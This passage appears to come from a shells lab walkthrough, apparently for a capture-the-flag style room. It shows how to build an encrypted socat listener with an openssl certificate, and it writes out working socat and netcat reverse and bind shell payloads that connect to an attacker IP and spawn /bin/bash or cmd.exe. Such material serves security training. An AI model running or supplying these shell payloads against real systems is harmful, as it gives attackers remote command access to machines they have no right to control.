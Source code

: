```console
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```
This command creates a 2048 bit RSA key with matching cert file, self-signed, and valid for 362 days. When we run this command it will ask us to fill in information about the certificate. This can be left blank, or filled randomly.

Now we need to merge the two files created by OpenSSL together into a single `.pem` file.

```console
cat shell.key shell.crt > shell.pem
```
With the `.pem` file created, we can now set up our reverse shell listener with the following command:

```console
socat OPENSSL-LISTEN:<Port-Number>,cert=shell.pem,verify=0 -
```
This sets up an OPENSSL listener using our generated certificate. The `verify=0` tells the connection to not bother trying to validate if our certificate has been properly signed by a recognized authority.

Note that the certificate must be used on whichever device is listening.

To connect back (ie: payload), the following command can be used:

```cosole
socat OPENSSL:<Attacker-IP>:<Attacker-Port>,verify=0 EXEC:/bin/bash
```
For bind shells, the same technique would apply:

```console
# Target Machine (Windows Example)

socat OPENSSL-LISTEN:<Port-Number>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes

# Attacker Machine

socat OPENSSL:<Target-IP>:<Target-PORT>,verify=0 -
```
Note that the certificate must be copied over to the target machine prior to creating a bind listener.

## Task 8 - Common Shell Payloads
This tasks covers some common payloads using the tools we have already discussed above.

A simple Netcat payload can be made as follows:

```console
# Bind Shell Listener
nc -lvnp <Port-Number> -e /bin/bash

# Reverse Shell Payload
nc <Attacker-IP> <Attacker-Port> -e /bin/bash
```
If the target is not using `netcat-traditional` we will not be able to use the above commands. In this event the following commands using named pipes will prove useful:
